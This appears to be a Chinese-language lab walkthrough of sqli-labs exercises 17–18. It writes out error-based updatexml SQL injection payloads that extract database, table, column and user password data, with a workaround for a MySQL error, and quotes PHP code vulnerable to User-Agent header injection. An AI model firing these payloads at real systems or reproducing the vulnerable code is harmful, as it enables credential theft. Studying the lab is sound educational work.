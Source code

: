 ```sql
// 爆破库名	 //passwd的''要去掉一个
uname=admin&passwd='' or updatexml(1,substr(concat(0x7e,database(),0x7e),1,30),1)#$submit=Submit 
// 爆破表名
uname=admin&passwd='' or updatexml(1,concat(0x7e,substr((select group_concat(table_name) from information_schema.tables where table_schema=database()),1,30),0x7e),1)#$submit=Submit
// 爆破users表列名
uname=admin&passwd='' or updatexml(1,concat(0x7e,substr((select group_concat(column_name) from information_schema.columns where table_name='users'),1,30),0x7e),1)#$submit=Submit
// 爆破users表内容
uname=admin&passwd='' or updatexml(1,concat(0x7e,substr((select group_concat(username) from security.users),1,30),0x7e),1)#$submit=Submit
uname=admin&passwd='' or updatexml(1,concat(0x7e,substr((select group_concat(password) from security.users),1,30),0x7e),1)#$submit=Submit

```

上面爆破库，表，列，都是顺利的， 到了爆破表数据的时候，就报错`You can't specify target table 'users' for update in FROM clause`.原因是,**在同一条SQL语句中，不允许先SELECT出同一个表中的某些值，再对该表进行UPDATE操作**，其中原理类似于读写锁，取出来的数据可能被后来update 的操作污染。

解决的办法有：

- 在SELECT时，多嵌套一层子查询，即把SELECT出来的结果作为中间表再SELECT一次，
- 创建一个临时新的表，然后根据临时表来UPDATE表中的数据，最后再把临时表删除。这个在注入中不好操作。

```sql
// 使用方法一解决，将查询的内容构造成列，然后再查询一次。
select group_concat(t.username) from ((select username from security.users)t)
select group_concat(t.password) from ((select password from security.users)t)
// 完整的查询语句
uname=admin&passwd='' or updatexml(1,concat(0x7e,substr((select group_concat(t.username) from ((select username from security.users)t)),1,30),0x7e),1)#$submit=Submit
uname=admin&passwd='' or updatexml(1,concat(0x7e,substr((select group_concat(t.password) from ((select password from security.users)t)),1,30),0x7e),1)#$submit=Submit
```



##### 18. Header Injection - Uagent field - Error based

基于http请求头的`User-Agent`注入

看到解释，是从http请求头进行注入，我在想为什么不能body进行呢，看了一下源码。

根据body的用户名和密码进行查询，只有查询到，才会执行insert插入语句.因此只能在http请求头进行注入，

```php
$uagent = $_SERVER['HTTP_USER_AGENT'];
$sql="SELECT  users.username, users.password FROM users WHERE users.username=$uname and users.password=$passwd ORDER BY users.id DESC LIMIT 0,1";
	$result1 = mysql_query($sql);
	$row1 = mysql_fetch_array($result1);
		if($row1)
			{
			$insert="INSERT INTO `security`.`uagents` (`uagent`, `ip_address`, `username`) VALUES ('$uagent', '$IP', $uname)";
    	}else {}
```
